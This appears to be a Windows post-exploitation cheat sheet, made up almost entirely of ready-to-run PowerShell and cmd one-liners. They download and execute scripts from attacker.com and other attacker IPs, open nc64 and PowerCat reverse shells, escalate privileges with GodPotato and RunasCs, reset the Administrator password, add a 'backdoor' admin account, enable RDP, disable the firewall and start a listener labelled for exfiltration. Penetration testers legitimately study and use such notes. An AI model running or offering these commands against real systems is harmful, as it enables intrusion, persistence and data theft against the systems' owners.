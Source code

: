 ```PowerShell
powershell -executionpolicy bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/malicious.ps1')"

cmd /c GodPotato-NET4.exe -cmd "cmd /c C:\Users\Public\Documents\nc64.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.233 443"
```
### RunasCs
```PowerShell
# --bypass-uac is not always necessary but occasionally helps out
.\RunasCs.exe zach "zachpassword123" "C:\Users\Public\nc64.exe 192.168.45.193 53 -e powershell" --bypas
s-uac
```
### Change Local Admin Password
```PowerShell
$Password = ConvertTo-SecureString "password123" -AsPlainText -Force
Set-LocalUser -Name "Administrator" -Password $Password
# Check if "Administrator" is enabled
(Get-LocalUser -Name "Administrator").Enabled
# Enable "Administrator" if necessary
Enable-LocalUser -Name "Administrator"
```
### Establish User Backdoor Persistence
```PowerShell
net user /add backdoor Password123
net localgroup Administrators /add backdoor
```
### Enable RDP with PowerShell
```PowerShell
# Add user to RDP group
net localgroup "Remote Desktop Users" CORP\john.doe /add 
# Enable RDP
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
# Permit RDP through Windows Firewall
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

# ALTERNATIVELY with cmd.exe, enable RDP
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f
# ALTERNATIVELY with cmd.exe,  disable the Windows Firewall completely
netsh advfirewall set allprofiles state off
```
### PowerCat Run In-Memory
```PowerShell
# Example loading Powercat.ps1 directly into memory; run with `powercat --version`
powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker-ip>/powercat.ps1'); powercat -c <attacker-ip> -p <attacker-port> -e cmd"

IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.159/powercat.ps1')
```
### Windows Transferring Files with Base64
```PowerShell
certutil -encode test.exe test.txt
certutil -decode test.txt test.exe
```
### Exfiltration via PowerShell Web Server
```PowerShell
$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add("http://*:8080/")
$listener.Start()
```